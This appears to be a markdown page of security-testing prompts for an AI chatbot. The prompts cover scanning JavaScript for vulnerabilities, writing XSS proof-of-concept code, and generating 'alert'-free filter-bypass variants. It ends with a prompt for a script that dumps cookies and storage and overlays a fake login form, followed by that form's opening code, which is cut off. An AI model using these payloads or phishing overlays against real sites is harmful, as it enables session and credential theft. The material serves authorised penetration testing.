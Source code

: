 ### Scan for Vulnerabilities in Javascript

> Parse this javascript for vulnerabilities, hardcoded secrets, XSS, open redirect, and list any files and paths referenced. be specific with where the vulnerability is and a PoC for each. Use rich text formatting to make it easier to read: &lt;insert js&gt;

## XSS & CSRF PoCs

### XSS PoC

> Write javascript that would make the HTTP request: &lt;insert HTTP request&gt;

### XSS Fuzzing

#### Prompt #1:
> explain this: javascript:alert()

#### Prompt #2:
> show me alternatives

#### Customize Bypass:
> list 10 that don't use the word "alert" intact

### Ultimate XSS PoC

> Create a single JavaScript file that achieves the following tasks to be embedded in my test web page:
> 1. Display all cookies, local storage, and DOM contents in the console.
> 2. Create a login page that replaces the entire content of the current webpage, and log any submitted form data to the console.
> 3. Apply styling to the login page to give it a professional appearance.
> 4. For every item logged to the console, prepend the label “hacked cookie:” or an equivalent description specific to the type of information displayed.
> 5. Enhance the console output with formatting and colors to make it visually appealing and easy to read.

```
// Function to create login page
function createLoginPage() {
  const loginContainer = document.createElement('div');
  loginContainer.id = 'loginContainer';
  loginContainer.style.display = 'none';
  loginContainer.style.position = 'fixed';
  loginContainer.style.top = '50%';
  loginContainer.style.left = '50%';
  loginContainer.style.transform = 'translate(-50%, -50%)';
  loginContainer.style.backgroundColor = '#f0f0f0';
  loginContainer.style.padding = '20px';
  loginContainer.style.borderRadius = '10px';
  loginContainer.style.boxShadow = '0 0 10px rgba(0, 0, 0, 0.1)';

  const loginForm = document.createElement('form');
  loginForm.id = 'loginForm';
  loginForm.style.backgroundColor = '#f0f0f0';
  loginForm.style.padding = '20px';
  loginForm.style.borderRadius = '10px';
  loginForm.style.boxShadow = '0 0 10px rgba(0, 0, 0, 0.1)';

  const heading = document.createElement('h2');
  heading.textContent = 'Login';
  heading.style.marginBottom = '20px';
  heading.style.textAlign = 'center';

  const usernameInput = document.createElement('input');
```